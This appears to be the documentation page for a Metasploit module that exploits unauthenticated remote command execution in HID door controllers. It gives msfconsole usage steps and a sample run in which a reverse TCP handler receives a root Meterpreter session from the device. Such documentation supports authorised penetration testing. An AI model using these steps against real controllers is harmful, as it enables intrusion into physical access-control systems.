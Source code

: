 ## Description

  This module exploits an unauthenticated remote command execution
  vulnerability in the `discoveryd` service exposed by HID VertX and Edge
  door controllers.


## Vulnerable Application

  This module was tested successfully on a HID Edge model EH400
  with firmware version 2.3.1.603 (Build 04/23/2012).


## Verification Steps

  1. Start `msfconsole`
  2. `use exploit/linux/misc/hid_discoveryd_command_blink_on_unauth_rce`
  3. `set rhost [IP]`
  4. `set lhost [IP]`
  5. `run`
  6. You should get a *root* session


## Scenarios

  ```
  msf5 > use exploit/linux/misc/hid_discoveryd_command_blink_on_unauth_rce 
  msf5 exploit(linux/misc/hid_discoveryd_command_blink_on_unauth_rce) > set rhosts 10.123.123.123
  rhosts => 10.123.123.123
  msf5 exploit(linux/misc/hid_discoveryd_command_blink_on_unauth_rce) > set lhost 10.1.1.197
  lhost => 10.1.1.197
  msf5 exploit(linux/misc/hid_discoveryd_command_blink_on_unauth_rce) > run

  [*] Started reverse TCP handler on 10.1.1.197:4444 
  [*] 10.123.123.123:4070 - Connecting to target
  [*] Command Stager progress -   0.29% done (26/8993 bytes)
  [*] Command Stager progress -   0.58% done (52/8993 bytes)
  [*] Command Stager progress -   0.87% done (78/8993 bytes)
  [*] Command Stager progress -   1.16% done (104/8993 bytes)
  [...]
  [*] Command Stager progress -  98.88% done (8892/8993 bytes)
  [*] Command Stager progress -  99.17% done (8918/8993 bytes)
  [*] Command Stager progress -  99.46% done (8944/8993 bytes)
  [*] Command Stager progress -  99.68% done (8964/8993 bytes)
  [*] Sending stage (806208 bytes) to 10.123.123.123
  [*] Command Stager progress - 100.00% done (8993/8993 bytes)

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 10.123.123.123
  OS           :  (Linux 2.6.28)
  Architecture : armv5tejl
  BuildTuple   : armv5l-linux-musleabi
  Meterpreter  : armle/linux
  meterpreter > 
  ```


